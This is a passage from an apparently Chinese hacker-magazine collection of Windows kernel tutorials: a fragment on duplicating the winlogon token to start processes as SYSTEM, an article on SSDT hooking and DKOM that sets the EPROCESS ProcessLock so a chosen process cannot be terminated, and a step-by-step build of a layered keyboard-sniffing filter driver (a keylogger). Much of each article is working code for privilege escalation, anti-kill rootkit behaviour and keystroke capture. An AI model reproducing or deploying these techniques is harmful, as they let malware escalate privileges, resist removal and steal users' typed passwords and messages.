dup := GetLastError();
SetTokenInformation(hUserTokenDup,
  TokenSessionId, pointer(dwSessionId), sizeof(DWORD));
```

`CreateProcessAsUser` 启动进程即可获得特权，以 System 权限启动进程。

```cpp
bResult := CreateProcessAsUser(
  hUserTokenDup, // winlogon 进程的权限
  'C:\a.exe',    // 执行的程序
  nil,
  nil,
  nil,
  FALSE,
  dwCreationFlags,
  lpEnv,
  'C:\a',        // 当前目录名称
  si,            // 指向 STARTUPINFO 结构的指针
  pi             // 获得新进程的信息
);
```

像一般情况下使用 `CreateProcess` 启动进程是无效的。如果使用 `CreateProcess`，它仍会在系统账户下生成进程，因为我们的进程仍运行在本地系统账户下，这样仍然会弹出 UAC 提示，因此必须使用 `CreateProcessAsUser` 才行。

我们获得了 System 权限就可以畅通无阻了，但反过来想，服务的权限过大，假若用户态程序与服务进行交互，也可以利用服务做很多原本被禁止的事情，这也属于一个安全隐患吧。同理，我们也可以偷取普通进程的权限并赋予服务，这样也可以确保安全性，Jedi Security API Library 中提供了解决方案及函数，有兴趣的读者可以自己实现一下。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

定位进程后，可以使用从 Winlogon 得到的令牌，利用 `DuplicateTokenEx` 函数获得令牌并传给其他函数。当然，获得的令牌无法直接使用，必须利用 `CreateProcessAsUser` 函数才能使用复制的令牌，从而使用会话 1 创建进程。

```cpp
tp.PrivilegeCount := 1;
tp.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED;
DuplicateTokenEx(hPToken, MAXIMUM_ALLOWED, nil,
  SecurityIdentification, TokenPrimary, hUserTokenDup);
// 获得令牌


```

前置知识：VC  
关键词：编程、SSDT、DKOM

##### SSDT Hook 与 DKOM 实现反杀
文/小废

这段时间在学习内核编程技术，主要是查看黑防以前的文章来学习。SSDT Hook 目前虽然用得比较多，但我觉得还不到泛滥的地步。虽然各种杀毒软件的防火墙把 SSDT 给 Hook 得面目全非，却也并非说明 SSDT Hook 已经没有任何的价值。于是心动一把，写下本文算是总结一下这段时间的学习成果吧。以下的测试环境为 Windows XP SP3，使用的工具为 WinDbg、冰刃。

###### 什么是 SSDT

SSDT 的全称是 System Services Descriptor Table，也就是系统服务描述符表。这张表就是一个把 Ring3 的 Win32 API 和 Ring0 的内核 API 联系起来的东西。

首先来看看 SSDT 的结构，引用 MSDN 的说法如下：

```c
typedef struct _SYSTEM_SERVICE_TABLE {
    PVOID ServiceTableBase;
    PULONG ServiceCounterTableBase;
    ULONG NumberOfServices;
    ULONG ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

typedef struct _SERVICE_DESCRIPTOR_TABLE {
    SYSTEM_SERVICE_TABLE ntoskrnl;
    SYSTEM_SERVICE_TABLE win32k;
    SYSTEM_SERVICE_TABLE NotUsed1;
    SYSTEM_SERVICE_TABLE NotUsed2;
} SYSTEM_DESCRIPTOR_TABLE, *PSYSTEM_DESCRIPTOR_TABLE;


```

实际上，内核中存在两张系统服务描述符表，一个是 `KeServiceDescriptorTable`（由 ntoskrnl.exe 导出），一个是 `KeServiceDescriptorTableShadow`（没有导出，位于 win32k.sys）。`KeServiceDescriptorTable` 表对应我们的 SSDT Hook，`KeServiceDescriptorTableShadow` 表对应的就是 SSDT Shadow Hook。

再看一下 `KeServiceDescriptorTableShadow` 表。我们知道，Windows 子系统进程（Csrss）为 Windows 进程中创建的每个线程维护了一个平行的结构。对于那些已经调用了任何 Windows 子系统 USER 或 GDI 函数的线程，Windows 子系统的内核模式部分（Win32k.sys）为每一个这样的线程维护一个数据结构。

也就是说，每个线程开始时有一个域指向主系统服务表（`KeServiceDescriptorTable`）。在线程第一次调用 Windows GUI 服务时，这个系统服务表被改为 Win32k.sys 中另一张包含了 GDI 和 USER 服务的服务表。如果我们没有调用 GUI 服务，需要自己导入 `KeServiceDescriptorTableShadow` 表。忘记导入 `KeServiceDescriptorTableShadow` 表是初学者在做 SSDT Shadow Hook 时容易犯的错误。

我们再用 WinDbg 来看看 `KeServiceDescriptorTable` 的真面目。在正确导入符号表的 WinDbg 下输入 `dd KeServiceDescriptorTable`，结果如图 1 所示。
可以看到，在我的系统上，函数表基地址为 80502b8c，共有服务项 11c 个。那么这个地址指向了什么呢？用命令 `dd 80502b8c` 查看，如图 2 所示。
原来 80502b8c 地址对应的内存区指向了一堆不连续的地址。我们看看这些地址对应的是什么，执行命令 `u 8059a948`（和 MASM 一样，u 表示查看对应汇编代码），结果如图 3 所示。
可以看到，8059a948 指向了一个函数名为 NtAcceptConnectPort 的函数。运行冰刃查看这个函数，如图 4 所示，原来指向的是服务号为 0x0 的服务函数。由此我们可以得到一种定位导出函数在 SSDT 中地址的方法：找到 `KeServiceDescriptorTable` 结构，然后找到服务函数表的基地址，加上服务号就得到了 Hook 函数的偏移地址。
###### 什么是 DKOM？

DKOM 是直接内核对象操作的缩写。通俗说就是，我们通过直接修改内核对象来达到目的，更直接一点……就是修改对应内存区域。DKOM 的优点是难以被发现，缺点则来自于其本身：在使用 DKOM 时，我们必须知道内核对象的结构体在什么时候、怎么被系统调用，以及随着系统更新产生的不同点，因此它又是脆弱的。

用 DKOM 实现反杀是 Hovi.Delphic 的文章给出的思路。在 Windows XP 系统下，EPROCESS+0x6c 这个位置名叫 ProcessLock，如图 5 所示。通过将其值置 1 来达到反杀的目的，任何想要结束此进程的程序将被挂起。通过测试，也是无法正常关机的。在 ETHREAD 上也有对应的结构，不过名字变成了 ThreadLock。

##### SSDT Hook 的实现

我们知道，系统从用户层进入核心态通过 NTDLL 来实现。系统通过查找 KeServiceDescriptorTable 表来找到对应服务函数实现代码的地址。

SSDT Hook 通过修改 KeServiceDescriptorTable 表，将服务函数地址替换成自己的函数地址，这样当下一次执行函数的时候，进入的就是我们自己的函数，从而实现 Hook。

下面以 ZwSetValueKey 为例来实现。ZwSetValueKey 是用来处理注册表的函数，我们可以按如下方式定义：

```c
// 对 ZwSetValueKey 函数的声明
extern NTSYSAPI NTSTATUS NTAPI ZwSetValueKey(
    IN HANDLE KeyHandle,
    IN PUNICODE_STRING ValueName,
    IN ULONG TitleIndex OPTIONAL,
    IN ULONG Type,
    IN PVOID Data,
    IN ULONG DataSize
);

typedef NTSTATUS (*REALZWSETVALUEKEY)(
    IN HANDLE KeyHandle,
    IN PUNICODE_STRING ValueName,
    IN ULONG TitleIndex OPTIONAL,
    IN ULONG Type,
    IN PVOID Data,
    IN ULONG DataSize
);

REALZWSETVALUEKEY RealZwSetValueKey;

// 我们自己的 ZwSetValueKey 函数
NTSTATUS HookZwSetValueKey(...)
```

```c
unsigned int *ServiceTableBase;
unsigned int *ServiceCounterTableBase;
unsigned int NumberOfService;
unsigned int *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[(PULONG)((PUCHAR)_function + 1)]
```

在需要的地方，我们可以通过 `(REALZWSETVALUEKEY)(SYSTEMSERVICE(ZwSetValueKey))` 定位到 ZwSetValueKey 在 SSDT 中的地址。现在要做的就是构造 HookZwSetValueKey 函数。在绕过内存写保护机制后，用如下语句完成替换：

```c
// HookZwSetValueKey 是我们自己的 Hook 函数
(REALZWSETVALUEKEY)(SYSTEMSERVICE(ZwSetValueKey)) = HookZwSetValueKey;
```

##### DKOM 技术实现进程反杀

实现 SSDT Hook 后，要实现进程反杀，我们可以在 HookZwSetValueKey 里做点手脚。我们可以用 HookZwSetValueKey 函数判断调用 ZwSetValueKey 的进程是否为我们保护的进程，如果是，就修改 ProcessLock 的值，不是则放过。这里会用到一个函数 PsGetCurrentProcess()。在内核中，我们用它来得到当前进程的 EPROCESS 结构。在 EPROCESS+0x174 处，有个 ImageFileName 结构，此处保存着我们的进程名。有了这些准备，下面就开始着手实现吧。

```c
// 显示当前进程名 + 进程锁的值
PEPROCESS pEProcess = PsGetCurrentProcess();
char *ProcessName = (char *)((ULONG)pEProcess + 0x174);
ULONG *ProcessLock = (PULONG)((ULONG)pEProcess + 0x6c);

if (strcmp(ProcessName, "StartPage.exe") == 0) {
    if (MmIsAddressValid((PVOID)((ULONG)pEProcess + 0x6c))) {
        __asm {
            push eax;
            push ebx;
            mov ebx, 1;
            mov eax, ProcessLock;
            mov [eax], ebx;
            pop ebx;
            pop eax;
        }
    }
}
```

```c
ProcessLock = (PULONG)((ULONG)pEProcess + 0x6b0);
KdPrint("%x\n", *ProcessLock);
// 输出修复过前 ProcessLock 值
```

最终效果如图 6 和图 7 所示，可以看到 ZwSetValueKey 被我们成功地 Hook 了。

在这里可以发现，StartPage.exe 前后的 ProcessLock 值不一样，我们修改成功。下面验证一下，用进程管理器结束进程，进程管理器自身被挂起。如果想关机，那么很遗憾地告诉你，只能直接按电源了。要修复这个问题，只要将 ProcessLock 的值改为 0 即可。

##### 小结

本文只是以 ZwSetValueKey 做一个示例，不足之处还请大家指教。在越来越多人研究内核的今天，可以找到的资料虽然比不上应用层那么多，但也可以算是丰富了。也许在不久的将来，Windows NT 系统将不再神秘，可是当 Windows NT 脱下了最后一块遮羞布，我们可以随意畅游内核的时候，它是否会如同 DOS 一样离我们远去，静静地消逝，成为人们心中远去的回忆呢？

前置知识：VC

关键词：编程、驱动、键盘监听

##### 基于分层的键盘监听驱动程序的编写

文/图 杨阳 赵友华

最近学习了《Rootkits: Subverting the Windows Kernel》“分层驱动”中关于编写键盘监听驱动程序的文章。以下就是学习这篇文章的一些心得体会，第一次写驱动方面的文章，恳请大家多提宝贵意见及建议。

###### 驱动程序相关知识

应用程序的运行一般分为用户模式和内核模式两种，如图 1 所示。运行应用程序实际上就是提出了一些 I/O 请求，驱动程序的主要功能是处理这些 I/O 请求，而绝大多数的 I/O 请求是在驱动程序的派遣函数中处理的。Windows 内核中的 I/O 请求是通过 IRP（I/O Request Packet，输入/输出请求包）完成的。IRP 由 I/O 管理器发出，I/O 管理器是用户模式与内核模式之间的桥梁，当用户模式中的进程发出 I/O 请求时，I/O 管理器就捕获这些请求，将其转化成 IRP，发给驱动程序；如图 2 所示。

在图 2 中，步骤①是用户模式中的应用程序将 I/O 请求发送到内核模式中的 I/O 管理器。步骤②是 I/O 管理器根据 I/O 请求产生一个 IRP，并将该 IRP 发送给相应的驱动程序。步骤③中驱动程序完成 I/O 操作，并将操作结果传递给 I/O 管理器。步骤④中，I/O 管理器将操作步骤反馈回应用程序。

```cpp
if (CreateFile(......) == INVALID_HANDLE_VALUE)
{
    printf("创建文件失败");
}
```

以上代码完成的实际动作为应用程序将创建文件的请求发送给 I/O 管理器，I/O 管理器根据这个请求创建一个创建文件的 IRP，并将该 IRP 发送给与创建文件相关的驱动程序，驱动程序执行创建文件的动作，然后将执行结果传递给 I/O 管理器，最后 I/O 管理器将这个结果反馈给应用程序。

###### 驱动程序的通用派遣函数

在 Klog.cpp 执行文件中，驱动程序的入口函数 DriverEntry() 利用 for 语句将驱动对象的派遣函数数组中所有的函数指向一个通用函数 DispatchPassDown()。

```cpp
for (int i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
{
    pDriverObject->MajorFunction[i] = DispatchPassDown;
}
```

其中，常量 IRP_MJ_MAXIMUM_FUNCTION 表示派遣函数数组中元素的个数；pDriverObject 表示设备驱动对象的指针，是入口函数 DriverEntry() 的第一个参数。通用函数 DispatchPassDown() 没有任何功能，该函数在 Klog.cpp 执行文件中定义。

```cpp
NTSTATUS DispatchPassDown(IN PDEVICE_OBJECT pDeviceObject, IN PIRP pIrp)
{
    IoSkipCurrentIrpStackLocation(pIrp);
    return IoCallDriver(((PDEVICE_EXTENSION)pDeviceObject->DeviceExtension)->pKeyboardDevice, pIrp);
}
```

DispatchPassDown() 函数的第一个参数是设备对象的指针，第二个参数是 IRP 结构的指针。IoSkipCurrentIrpStackLocation 是一个宏，该宏的作用是使得 IRP 中当前的 IO_STACK_LOCATION 指针少向前走一步，而函数 IoCallDriver() 的作用是使得 IRP 中当前 IO_STACK_LOCATION 指针向前走一步。IoSkipCurrentIrpStackLocation 宏与 IoCallDriver() 函数联合使用的结果是 IRP 中 IO_STACK_LOCATION 指针不变，也就使得下一层驱动对应的是正确的 IO_STACK_LOCATION。

对于分层驱动，IRP 中的每个 IO_STACK_LOCATION 结构对应一层驱动程序。当某一层的驱动程序处理完 IRP 后，会将该 IRP 传递给下一层驱动程序，如图 3 所示。IRP 中 IO_STACK_LOCATION 结构的指针会相应地指向该驱动所对应的 IO_STACK_LOCATION 结构。可以通过 IoSkipCurrentIrpStackLocation 宏和 IoCallDriver() 函数来移动 IO_STACK_LOCATION 结构的指针。

###### 设备对象与设备堆栈

Windows 的每个设备驱动模块都由两种“对象”代表，一种是驱动对象，即 Driver Object；另一种是设备对象，即 Device Object。设备对象通常是由驱动对象创建的，驱动对象在其初始化的过程中创建设备对象。可以这么理解，驱动对象和设备对象其实是同一事物的两面，驱动对象是其中抽象的一面，而设备对象是具体的一面。设备驱动模块一般是堆叠的，如图 4 所示。

从图中可以看出，上下层之间形成堆叠的是设备对象而不是驱动对象。设备对象形成的堆叠称为“设备堆栈”。本文涉及的驱动程序的设备对象是堆叠在设备堆栈之上的，如图 5 所示。从图中分析可知，本文涉及的键盘监听驱动程序的步骤是首先创建一个设备对象，之后将设备对象挂载到键盘的设备堆栈之上。以上功能是通过 HookKeyboard() 函数实现的，该函数在 KdbHook.cpp 执行文件中定义。

在 HookKeyboard() 函数中，调用 IoCreateDevice() 函数创建设备对象。

```cpp
NTSTATUS status = IoCreateDevice(pDriverObject, sizeof(DEVICE_EXTENSION), NULL, FILE_DEVICE_KEYBOARD, 0, TRUE, &pKeyboardDeviceObject);
```

图 5 设备驱动的挂载

IoCreateDevice() 函数的第 1 个参数是驱动对象的指针，该驱动对象是驱动程序入口函数 DriverEntry() 的第 1 个参数，表示该驱动程序对应的驱动对象。第 2 个参数表示设备对象的设备扩展的大小。设备对象记录“通用”设备的信息，而另外一些“特殊”信息记录在设备扩展里，设备扩展是一个自定义的结构，每个设备的设备扩展也不尽相同。本驱动程序的设备扩展在 Klog.h 头文件中定义。第 3 个参数表示创建的设备对象的名称，NULL 表示创建的设备对象没有名称。从 IoCreateDevice() 函数的源代码中可以看出，当该参数不为空时，会在创建的设备对象的属性中加入 OBJ_PERMANENT，也就是指定创建的设备对象是永久对象；如果该参数是 NULL，则创建的是临时对象，相对于永久对象，临时对象的删除步骤更简单一些。第 4 个参数表示创建的设备对象的类型，FILE_DEVICE_KEYBOARD 表示类型是键盘设备。第 5 个参数指定了一个或多个系统定义的常量，这些常量提供了驱动设备的附加信息，0 表示没有附加信息。第 6 个参数表示创建的设备对象是否是“独占设备”（exclusive device），在同一时刻只能有一个线程向该设备发送 I/O 请求。从 IoCreateDevice() 函数的代码中可以看到，如果该参数的值是 TRUE，则在创建的设备对象属性中加入 OBJ_EXCLUSIVE 值。第 7 个参数是输出参数，表示创建的设备对象的指针。接下来对创建的设备对象的操作，都是通过 IoCreateDevice() 函数的第 7 个参数 pKeyboardDeviceObject 实现的。

在将新创建的设备对象加入到设备堆栈之前，需要使新加入的设备对象具有与设备堆栈相同的属性。设备堆栈的属性可以通过 Device Tree 工具获取，它可以查看驱动的设备堆栈。安装 Windows DDK 后，可以在 “Tools” 中找到该工具。运行 Device Tree 后，可以找到键盘驱动设备堆栈的属性。键盘驱动的设备对象名是 KeyboardClass0，右侧的 “Interpreted Device Flags” 栏表示整个设备堆栈的属性，如图 6 所示。

图 6 Device Tree 中显示的设备属性

```c
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags | (DO_BUFFERED_IO | DO_POWER_PAGABLE);
```

其中，pKeyboardDeviceObject 是 IoCreateDevice() 函数创建的设备对象指针，通过该指针调用的成员变量 Flags 表示设备对象的属性。通过 IoCreateDevice() 函数创建的设备对象具有 DO_DEVICE_INITIALIZING 属性，该属性防止其他组件在驱动程序完成初始化设备之前向设备发送 I/O 请求。如果设备对象具有该属性，则不允许其他组件诸如 CreateFile() 或 OpenFile() 等函数通过名称打开设备。因此，在将新创建的设备驱动挂载到设备堆栈时，需要将该属性清除；如果没有清除该属性，则其他驱动对应的设备对象将无法挂接到这个设备对象上。

```c
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags & ~DO_DEVICE_INITIALIZING;
```

接下来通过设备对象的指针 pKeyboardDeviceObject 获取设备对象的设备扩展的指针。该设备扩展在挂载设备对象时使用。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)pKeyboardDeviceObject->DeviceExtension;
```

接下来调用 IoAttachDevice() 函数将创建的设备对象挂载到设备堆栈中。在调用 IoCreateDevice() 函数之前需要将键盘设备的符号名转化成 UNICODE 字符串。

```c
CCHAR ntNameBuffer[64] = "\\Device\\KeyboardClass0";
STRING ntNameString;
UNICODE_STRING uKeyboardDeviceName;
RtlInitAnsiString(&ntNameString, ntNameBuffer);
RtlAnsiStringToUnicodeString(&uKeyboardDeviceName, &ntNameString, TRUE);
```

设备名称用 UNICODE 字符串表示，并且字符串的格式必须是“\Device\[设备名]”。因此代码中“\Device\KeyboardClass0”表示键盘的名称。RtlInitAnsiString() 函数是内核模式下的函数，该函数的作用是对指定的 ANSI 字符串进行初始化，也就是对字符串进行赋值。RtlInitAnsiString() 函数的第 1 个参数表示要初始化的 ANSI_STRING 字符串的指针，第 2 个参数表示对字符串初始化（赋值）的内容。RtlAnsiStringToUnicodeString() 函数的作用是将 ANSI 字符串转换成 UNICODE 字符串。该函数的第 1 个参数表示转换后的 UNICODE_STRING 字符串的指针，第 2 个参数表示需要被转换的 ANSI_STRING 字符串的指针，第 3 个参数表示是否需要为被转换的字符串进行内存分配。如果该参数为 TRUE，表示需要分配内存，则需要调用 RtlFreeUnicodeString() 函数来释放分配的内存。

以上为 HookKeyboard() 函数的代码。该函数的作用是创建一个设备对象，并将该设备对象挂载到键盘设备堆栈之上。

##### IRP_MJ_READ 的派遣函数

之前我们提到，IRP 用来处理 Windows I/O 请求。当系统等待键盘输入时，会产生一个 `IRP_MJ_READ` 类型的 IRP。如果在驱动程序中为 `IRP_MJ_READ` 分配了派遣函数，则当 IRP 经过该驱动程序时，指定的派遣函数将被调用，如图 7 所示。

图 7  IRP_MJ_READ 的派遣函数

在本文涉及的驱动程序中，在入口函数 `DriverEntry()` 中为 `IRP_MJ_READ` 分配了派遣函数。也就是说，当接收到类型为 `IRP_MJ_READ` 的 IRP 后，驱动程序会调用 `DispatchRead()` 函数。

```c
pDriverObject->MajorFunction[IRP_MJ_READ] = DispatchRead;
```

当系统向键盘驱动发送读取数据（等待键盘输入）的 IRP 时，新创建的驱动就会截获这个 IRP，并对该 IRP 进行相应的处理。而大家都清楚，键盘监听功能是通过截获用户按下键盘的信息来实现的，而当 IRP 由键盘驱动返回系统时，IRP 中才会包含用户的按键信息。当 IRP 从系统向键盘驱动发送时，IRP 中是不包含按键信息的。那么，驱动为什么要截获这个“空”的 IRP 呢？之前我们也提到，键盘监听驱动程序主要是对从键盘设备向上返回系统的 IRP 进行截获，但是我们无法确定“上行”的 IRP 何时经过本程序。因此，在“下行”IRP 经过本程序时（可通过 `IRP_MJ_READ` 来确定），在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中注册一个完成例程，当底层的键盘驱动将按键信息填充到 IRP 中之后，这个完成例程立刻被调用，完成对按键信息的截获。

`DispatchRead()` 函数在 `KbdHook.cpp` 源文件中定义。前面我们已经提到，IRP 中的每个 `IO_STACK_LOCATION` 结构都对应一个设备堆栈中的设备对象，IRP 每穿越一次设备对象，就会用 `IO_STACK_LOCATION` 记录下本次操作的某些属性。图 8 中显示了驱动对象、设备对象，以及 IRP 中 `IO_STACK_LOCATION` 结构的关系（实际上上层设备对象对应 `IO_STACK_LOCATION1`，下层设备对象对应 `IO_STACK_LOCATION2`）。

图 8  设备对象与 `IO_STACK_LOCATION` 的正确对应关系

在将键盘监听驱动所对应的设备对象挂载到设备堆栈后，由于 IRP 中没有为新的设备对象准备 `IO_STACK_LOCATION` 结构，因此，如果不进行处理，设备对象与 `IO_STACK_LOCATION` 结构的对应关系会被破坏，如图 9 所示。因此，在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中，首先修正设备对象与 `IO_STACK_LOCATION` 结构的对应关系。

```c
PIO_STACK_LOCATION currentIrpStack = IoGetCurrentIrpStackLocation(pIrp);
PIO_STACK_LOCATION nextIrpStack = IoGetNextIrpStackLocation(pIrp);
*nextIrpStack = *currentIrpStack;
```

图 9  加入了新的设备对象后，与 `IO_STACK_LOCATION` 结构错误的对应关系

其中，`PIO_STACK_LOCATION` 是 `IO_STACK_LOCATION` 结构的指针。`IoGetCurrentIrpStackLocation()` 获取当前驱动程序创建设备对象所对应的 IRP 中 `IO_STACK_LOCATION` 结构的指针。`IoGetNextIrpStackLocation()` 获取当前驱动程序下一级驱动程序的设备对象所对应的 `IO_STACK_LOCATION` 结构的指针。最后一行代码的含义是将键盘监听驱动程序的下一级驱动（也就是图中的“上层驱动”）的设备对象所对应的 `IO_STACK_LOCATION` 结构指针所指向的内容，设置为本层设备对象所对应的 `IO_STACK_LOCATION` 结构指针所指向的内容，如图 10 所示。通过以上代码，就完成了设备对象与 `IO_STACK_LOCATION` 结构对应关系的修正。

图 10  设备对象与 `IO_STACK_LOCATION` 结构修正后的对应关系

在修正了设备对象与 `IO_STACK_LOCATION` 结构的对应关系之后，在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中，接下来要完成的动作就是注册完成例程。

```c
IoSetCompletionRoutine(pIrp, OnReadCompletion, pDeviceObject, TRUE, TRUE, TRUE);
```

注册完成例程的目的是当指定的 IRP 被底层驱动完成后，该完成例程能够马上运行。`IoSetCompletionRoutine` 宏的第 1 个参数指定 IRP 的指针，`pIrp` 是派遣函数 `DispatchRead()` 的第 2 个参数。第 2 个参数是要注册的完成例程所对应的函数名，`OnReadCompletion()` 函数在 `KbdHook.cpp` 源文件中定义。第 3 个参数表示完成例程的设备上下文，也就是完成例程的参数，`pDeviceObject` 是派遣函数 `DispatchRead()` 的第 1 个参数，类型是 `PDEVICE_OBJECT`，也就是设备对象指针。底层驱动对 IRP 的完成包括三种情况：IRP 成功完成、IRP 错误完成，以及 IRP 被取消。那么 `IoSetCompletionRoutine()` 宏的第 4～6 个参数就分别指定在 IRP 以上三种情况下，完成例程能否被调用，值为 `TRUE` 表示可以被调用，`FALSE` 表示不能被调用。以上代码的含义是当底层驱动对于读取键盘按键的 IRP 请求完成成功、完成失败以及被取消时，都会调用完成例程函数 `OnReadCompletion()`。

从上面的分析可知，在派遣函数 `DispatchRead()` 中注册完成例程，相当于对 IRP 发送了一个读取请求。当设备驱动将按键信息保存在 IRP 中后，调用注册的完成例程，完成读取请求。因此，声明一个整型变量 `numPendingIrps`，作为 IRP 读取请求的数量，只有当该变量的值是 0 的时候，才能对驱动进行卸载。派遣函数 `DispatchRead()` 每运行一次，对 IRP 的读取请求数量增加一次。

```c
numPendingIrps++;
```

变量 `numPendingIrps` 在 `Klog.cpp` 源文件中声明：

```c
int numPendingIrps = 0;
```

在 `KbdHook.cpp` 源文件中，使用 `extern` 关键字对 `numPendingIrps` 变量进行声明。

```c
extern int numPendingIrps;
```

在派遣函数 `DispatchRead()` 的最后，调用 `IoCallDriver()` 函数将 IRP 中 `IO_STACK_LOCATION` 结构的指针向下移动一位，也就是将指定的 IRP 转发给下层驱动。

```c
return IoCallDriver(((PDEVICE_EXTENSION)pDeviceObject->DeviceExtension)->pKeyboardDevice, pIrp);
```

`IoCallDriver()` 函数的第 1 个参数表示下层设备对象的指针，该对象就是 `IO_STACK_LOCATION` 结构指针向下移动一位之后，指针指向的 `IO_STACK_LOCATION` 结构所对应的设备对象。下层设备对象的指针通过驱动扩展结构 `DEVICE_EXTENSION` 的成员变量 `pKeyboardDevice` 获得。该函数的第 2 个参数表示指定 IRP 的指针。`IoCallDriver()` 函数的返回值作为整个派遣函数 `DispatchRead()` 的返回值使用。当前驱动成功地将 IRP 转发给下层驱动时，函数的返回值是 `NTSTATUS`。

##### 完成例程

接下来我们来看一下在派遣函数 `DispatchRead()` 中注册的完成例程函数 `OnReadCompletion()` 的具体编写。`OnReadCompletion()` 函数是在 `KbdHook.cpp` 源文件中定义的。在完成例程函数 `OnReadCompletion()` 中，首先获取本驱动程序的设备扩展。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)pDeviceObject->DeviceExtension;
```

其中，`pDeviceObject` 表示设备对象的指针，是 `OnReadCompletion()` 函数的第 1 个参数。

接下来通过 IRP 的状态来判断底层键盘驱动是否正确读取了按键信息，也就是判断当前 IRP 中是否含有正确的按键信息。需要注意的是，此时的 IRP 是由底层驱动“上行”的 IRP。

```c
if (pIrp->IoStatus.Status == STATUS_SUCCESS)
{
    ...
}
```

其中，`pIrp` 是 IRP 结构的指针，也是 `OnReadCompletion()` 函数的第 2 个参数。通过 IRP 结构指针访问该结构的成员变量 `IoStatus`，其类型为 `IO_STATUS_BLOCK`。该变量的定义如下所示：

```c
typedef struct _IO_STATUS_BLOCK
{
    union
    {
        LONG Status;
        PVOID Pointer;
    };
    ULONG Information;
} IO_STATUS_BLOCK, *PIO_STATUS_BLOCK;
```

其中成员变量 `Status` 保存 I/O 请求执行的完成情况。对于 `IRP_MJ_READ` 类型的 IRP，该变量表示键盘驱动是否正确读取了按键信息。如果底层键盘驱动成功获取了按键信息，则 `Status` 的值是 `STATUS_SUCCESS`。

在键盘驱动成功获取按键信息之后，接下来的动作是从这个 IRP 中获取按键信息。按键信息是以 `KEYBOARD_INPUT_DATA` 结构进行保存的，该结构定义如下：

```c
typedef struct _KEYBOARD_INPUT_DATA {
  USHORT UnitId;
  USHORT MakeCode;
  USHORT Flags;
  USHORT Reserved;
  ULONG ExtraInformation;
} KEYBOARD_INPUT_DATA, *PKEYBOARD_INPUT_DATA;

PKEYBOARD_INPUT_DATA keys =
 (PKEYBOARD_INPUT_DATA)pIrp->AssociatedIrp.SystemBuffer;
```

其中，通过 IRP 结构指针 `pIrp` 访问的成员变量 `AssociatedIrp` 是一个联合（union）：

```c
union {
  struct _IRP *MasterIrp;
  LONG IrpCount;
  PVOID SystemBuffer;
} AssociatedIrp;
```

其中，`SystemBuffer` 是缓冲区指针，该缓冲区中包含的就是按键信息。在获取了保存按键信息的缓冲区指针后，接下来判断该缓冲区中包含按键信息的数量。

```c
int numKeys = pIrp->IoStatus.Information / sizeof(KEYBOARD_INPUT_DATA);
```

其中，`IoStatus` 的成员变量 `Information` 表示包含按键信息的缓冲区大小。之后利用 `for` 语句对所有按键信息进行操作。

```c
for (int i = 0; i < numKeys; i++)
{
    ......
}
```

在 `for` 语句中，获取所有按键信息并将这些信息写入到指定文件中，完成键盘监听。

##### 互锁与信号灯

在完成例程中，我们将截获到的按键信息保存在双向链表中。为了保证完成例程的同步，即在同一时刻只有一个完成例程向双向链表中写入按键信息，本文涉及的键盘监控驱动程序中，使用互锁（interlocked）操作来完成例程同步。

在使用互锁同步前，首先分配内存空间用来保存这些按键信息。

```c
KEY_DATA* kData = (KEY_DATA*)ExAllocatePool(NonPagedPool, sizeof(KEY_DATA));
```

其中，`ExAllocatePool()` 函数的作用是在堆（Heap）中申请内存。第 1 个参数表示分配内存的类型，`NonPagedPool` 表示分配非分页内存；第 2 个参数表示所分配内存的大小。函数返回值是所分配内存的地址。

```c
struct KEY_DATA {
  LIST_ENTRY ListEntry;
  char KeyData;
  char KeyFlags;
};
```

接下来通过从 IRP 中获取到的按键信息，也就是 `KEYBOARD_INPUT_DATA` 结构指针 `keys`，对 `KEY_DATA` 结构的成员变量执行设置。

```c
kData->KeyData  = (char)keys[i].MakeCode;
kData->KeyFlags = (char)keys[i].Flags;
```

其中，变量 `MakeCode` 表示按键信息，`Flags` 表示按键标志，以上两个变量的内容分别保存在 `KEY_DATA` 结构的成员变量 `KeyData` 和 `KeyFlags` 中。之后，将 `kData` 所指向的缓冲区内容加入到互锁的双向链表中。

互锁操作可以理解成使用自带自旋锁来实现同步的一种操作。调用互锁的双向链表操作函数前，需要在驱动程序入口函数 `DriverEntry()` 中对自旋锁和链表头进行初始化处理。代码如下：

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
 (PDEVICE_EXTENSION)pDriverObject->DeviceObject->DeviceExtension;
InitializeListHead(&pKeyboardDeviceExtension->QueueListHead);
KeInitializeSpinLock(&pKeyboardDeviceExtension->lockQueue);
```

首先通过驱动对象获取该驱动对象所对应设备对象的设备扩展指针。设备扩展保存了设备的一些“特殊”信息，每个设备的设备扩展不同，需要由驱动程序自己定义设备扩展。

程序的设备扩展对应的 `DEVICE_EXTENSION` 结构在 `Klog.h` 头文件中定义。从 `DEVICE_EXTENSION` 结构的定义中可知，成员变量 `lockQueue` 表示自旋锁，`QueueListHead` 表示链表头。

自旋锁是一种同步机制，它能保证某个共享资源只能被一个线程所拥有。初始化自旋锁时，自旋锁处于解锁状态，它可以被程序“获取”。被“获取”之后的自旋锁状态变为锁住，此时再有程序申请“获取”该自旋锁时，该程序只能处于“自旋”状态。所谓“自旋”状态，就是程序不停询问是否可以“获取”自旋锁。

我们可以举个例子来解释自旋锁的概念。A、B 两个人合租一套房子，共用一个厕所，那么这个厕所可以看成是一个自旋锁。当两个人都不用厕所时，厕所状态处于“解锁”。当 A 使用厕所时，厕所门关闭，此时厕所状态处于“锁住”。如果这时候 B 也想使用厕所，他没有办法使用，只能在厕所外面焦急地等待，也就是处于“自旋”状态。当 A 用完厕所之后，厕所状态又变为“解锁”，那么 B 就可以使用厕所了。

